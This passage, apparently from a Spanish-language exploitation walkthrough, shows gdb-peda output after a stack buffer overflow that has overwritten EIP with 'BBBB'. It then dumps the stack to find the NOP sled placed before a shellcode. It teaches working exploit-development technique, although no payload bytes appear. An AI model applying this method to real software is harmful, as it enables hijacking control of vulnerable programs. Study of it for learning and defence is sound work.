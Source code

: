 ```shell
EDI: 0xf7fa7000 --> 0x1e4d6c 
EBP: 0x80cdc931 
ESP: 0xffffd1d0 --> 0xffffd400 --> 0xf 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd1d0 --> 0xffffd400 --> 0xf 
0004| 0xffffd1d4 --> 0x0 
0008| 0xffffd1d8 --> 0x0 
0012| 0xffffd1dc ("7bUV\374s\372", <incomplete sequence \367>)
0016| 0xffffd1e0 --> 0xf7fa73fc --> 0xf7fa82c0 --> 0x0 
0020| 0xffffd1e4 --> 0x56559000 --> 0x3efc 
0024| 0xffffd1e8 --> 0xffffd2d0 --> 0xffffd596 ("LC_TIME=es_MX.UTF-8")
0028| 0xffffd1ec --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

Vemos que el `EIP` contiene `BBBB`

Vamos a buscar en la Pila alguna una dirreccion que contenga los nops que estan antes del shellcode


```shell
gdb-peda$ x/300wx $esp
0xffffd1d0:	0xffffd400	0x00000000	0x00000000	0x56556237
0xffffd1e0:	0xf7fa73fc	0x56559000	0xffffd2d0	0x00000000
0xffffd1f0:	0x00000002	0xffffd2c4	0xffffd2d0	0xffffd220
0xffffd200:	0x00000000	0xf7fa7000	0x00000000	0xf7ddce46
0xffffd210:	0xf7fa7000	0xf7fa7000	0x00000000	0xf7ddce46
0xffffd220:	0x00000002	0xffffd2c4	0xffffd2d0	0xffffd254
0xffffd230:	0xffffd264	0xf7ffdb40	0xf7fca410	0xf7fa7000
0xffffd240:	0x00000001	0x00000000	0xffffd2a8	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fa7000	0xf7fa7000
0xffffd260:	0x00000000	0xf5c0af57	0xb1ff1147	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000002	0x56556090
0xffffd280:	0x00000000	0xf7fe88f0	0xf7fe3230	0x56559000
0xffffd290:	0x00000002	0x56556090	0x00000000	0x565560c1
0xffffd2a0:	0x56556212	0x00000002	0xffffd2c4	0x56556280
0xffffd2b0:	0x565562e0	0xf7fe3230	0xffffd2bc	0x0000001c
0xffffd2c0:	0x00000002	0xffffd437	0xffffd485	0x00000000
0xffffd2d0:	0xffffd596	0xffffd5aa	0xffffd5c2	0xffffd6ce
0xffffd2e0:	0xffffd6e5	0xffffd6f0	0xffffd709	0xffffd71a
0xffffd2f0:	0xffffd743	0xffffd757	0xffffd772	0xffffd790
0xffffd300:	0xffffd7a7	0xffffd7bc	0xffffd7cd	0xffffd7e1
0xffffd310:	0xffffddd0	0xffffdde4	0xffffddf1	0xffffddfb
0xffffd320:	0xffffde06	0xffffde19	0xffffde32	0xffffde48
0xffffd330:	0xffffde56	0xffffde64	0xffffde6c	0xffffdeb3
0xffffd340:	0xffffdefd	0xffffdf1b	0xffffdf27	0xffffdf3b
0xffffd350:	0xffffdf45	0xffffdf95	0xffffdf9e	0x00000000
0xffffd360:	0x00000020	0xf7fd0550	0x00000021	0xf7fd0000
0xffffd370:	0x00000033	0x00000e30	0x00000010	0x0f8bfbff
0xffffd380:	0x00000006	0x00001000	0x00000011	0x00000064
0xffffd390:	0x00000003	0x56555034	0x00000004	0x00000020
0xffffd3a0:	0x00000005	0x0000000b	0x00000007	0xf7fd2000
0xffffd3b0:	0x00000008	0x00000000	0x00000009	0x56556090
0xffffd3c0:	0x0000000b	0x00000000	0x0000000c	0x00000000
0xffffd3d0:	0x0000000d	0x00000000	0x0000000e	0x00000000
0xffffd3e0:	0x00000017	0x00000000	0x00000019	0xffffd41b
0xffffd3f0:	0x0000001a	0x00000002	0x0000001f	0xffffdfaa
```